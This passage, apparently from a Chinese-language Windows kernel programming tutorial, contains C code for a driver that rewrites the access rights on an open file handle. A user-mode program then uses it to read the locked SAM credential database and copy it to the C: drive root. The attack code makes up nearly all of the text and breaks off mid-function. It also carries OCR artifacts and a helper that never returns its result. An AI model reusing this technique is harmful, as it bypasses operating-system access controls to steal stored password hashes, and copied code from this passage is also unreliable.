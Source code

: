```c
    }

    ppdd = DriverObject->MajorFunction;
    ppdd [IRP_MJ_CREATE] =
    ppdd [IRP_MJ_CLOSE ] = DriverCreateClose;
    ppdd [IRP_MJ_DEVICE_CONTROL ] = DriverIoControl;

    return status;
}
```

遗憾的是句柄结构体中的`GrantedAccess`域并没有和文件打开的属性（`GENERIC_READ`、`GENERIC_WRITE`等）对应起来，所以在设置新的属性时我们需要以下constants：

```c
#define AC_GENERIC_READ        0x120089
#define AC_GENERIC_WRITE       0x120196
#define AC_DELETE              0x110080
#define AC_READ_CONTROL        0x120080
#define AC_WRITE_DAC           0x140080
#define AC_WRITE_OWNER         0x180080
#define AC_GENERIC_ALL         0x1f01ff
#define AC_STANDARD_RIGHTS_ALL 0x1f0080
```

为了使用这个驱动将SAM文件拷贝到c盘根目录，我们可以写一个最简单的程序：

```c
＃include <windows.h>
＃include "hchange.h"

BOOLEAN SetHandleAccess(
    HANDLE Handle,  
    ACCESS_MASK GrantedAccess
){
    HANDLE  hDriver;
    ULONG   Bytes;
    ULONG   Buff[2];
    BOOLEAN Result = FALSE;

    hDriver = CreateFile("\\\\.\\haccess", GENERIC_READ, 0, NULL, OPEN_EXISTING, 0, 0);
    if (hDriver != INVALID_HANDLE_VALUE){
        Buff[0] = (ULONG)Handle;
        Buff[1] = GrantedAccess;
        Result = DeviceIoControl(hDriver, IOCTL1, Buff, sizeof(Buff), NULL, 0, &Bytes, NULL);
        CloseHandle(hDriver);
    }
}

void main(){
    HANDLE hFile, hDest;
    ULONG  Size, Bytes;
    PVOID  Data;
    CHAR   Name[MAX_PATH];

    GetSystemDirectory(Name, MAX_PATH);
    lstrcat(Name, "\\config\\SAM");
    hFile = CreateFile(Name, FILE_READ_ATTRIBUTES, FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE, NULL, OPEN_EXISTING, 0, 0);
    
    if (hFile != INVALID_HANDLE_VALUE){
        if (SetHandleAccess(hFile, AC_GENERIC_READ)){
            Size = GetFileSize(hFile, NULL);
            Data = VirtualAlloc(NULL, Size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
            if (Data){
```